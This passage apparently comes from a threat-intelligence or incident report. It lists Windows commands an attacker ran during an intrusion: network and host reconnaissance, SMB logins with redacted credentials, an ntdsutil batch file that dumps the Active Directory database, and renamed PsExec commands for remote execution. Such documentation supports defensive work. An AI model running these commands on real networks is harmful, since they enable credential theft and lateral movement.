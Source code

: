 


1234567891011121314

cmd /C "C: & cd \ & whoami"cmd /C "C: & cd \ & net view"cmd /C "C: & cd \ & -setcp 866"cmd /C "C: & cd \ & net view"cmd /C "C: & cd \ & netstat -ano"cmd /C "C: & cd \ & dir $temp\ /od"cmd /C "C: & cd \ & arp -a"cmd /C "C: & cd \ & tasklist"cmd /C "C: & cd \ & tracert <redacted_internal_ip>"cmd /C "C: & cd \ & net use \\<redacted_internal_ip> /u:<redacted_username> <redacted_password>"cmd /C "C: & cd \ & net view \\<redacted_internal_ip>"cmd /C "C: & cd \ & ping -n 1 -a <redacted_internal_ip>"cmd /C "C: & cd \ & net use * /d /y"cmd /C "C: & cd \ & systeminfo"





Copying of files across SMB shares, followed by an attempt to dump the Active Directory domain database (tid):





cmd /C "C: & cd \ & echo ntdsutil \"ac i ntds\" \"ifm\" \"create full $temp\1\\\" q q >$temp\a.bat
cmd /C "C: & cd \ & type $temp\a.bat
cmd /C "C: & cd \ & move $temp\a.bat \\<redacted_internal_ip>\c$\windows\temp\\




123

cmd /C "C: & cd \ & echo ntdsutil \"ac i ntds\" \"ifm\" \"create full $temp\1\\\" q q >$temp\a.batcmd /C "C: & cd \ & type $temp\a.batcmd /C "C: & cd \ & move $temp\a.bat \\<redacted_internal_ip>\c$\windows\temp\\





Usage of the Sysinternals Psexec tool for remote command execution in the network (as the renamed version tmp):





$temp\TS_P61S.tmp  -accepteula -d -s \\<redacted_internal_ip1>\ cmd /c "arp -a >$temp\TS_P34H.tmp"
$temp\TS_P61S.tmp  -accepteula -d -s \\<redacted_internal_ip2>\ cmd /c "ping <redacted_internal_ip2> -a -n 2>$temp\TS_P34H.tmp"
$temp\TS_P61S.tmp  -accepteula -d -s \\<redacted_internal_ip3>\ cmd /c "ping -n 2 -a <redacted_internal_ip2>>$temp\TS_P34H.tmp"




123

$temp\TS_P61S.tmp  -accepteula -d -s \\<redacted_internal_ip1>\ cmd /c "arp -a >$temp\TS_P34H.tmp"$temp\TS_P61S.tmp  -accepteula -d -s \\<redacted_internal_ip2>\ cmd /c "ping <redacted_internal_ip2> -a -n 2>$temp\TS_P34H.tmp"$temp\TS_P61S.tmp  -accepteula -d -s \\<redacted_internal_ip3>\ cmd /c "ping -n 2 -a <redacted_internal_ip2>>$temp\TS_P34H.tmp"





Usage of WMI for remote command execution:
